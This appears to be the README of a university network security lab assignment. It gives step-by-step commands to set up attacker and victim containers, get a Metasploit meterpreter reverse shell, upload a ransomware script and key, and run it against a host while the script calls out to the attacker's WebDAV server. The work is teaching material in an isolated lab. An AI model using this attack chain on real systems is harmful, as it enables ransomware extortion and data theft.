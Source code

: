 # Netsec

Practical assignment #2 for Network Security

## Running
```sh
nix run .#run
```
Gets you into the VM. Once there:

```sh
sudo sh setup.sh
sudo nixos-container start attacker
sudo nixos-container login attacker
# now inside attacker container
mkdir victim/
rclone webdav victim/ --addr :8080
sudo msfconsole --defer-module-load -r preload.rc # to get into metasploit
# inside metasploit
exploit
# inside the meterpreter reverse shell
upload bash/ransom.sh bash/pk.pem /
cd /
shell
sh ransom.sh 10.0.0.100:8080
# ransomware started!

```

## Notice
All keypairs in this repo are not used anywhere else.

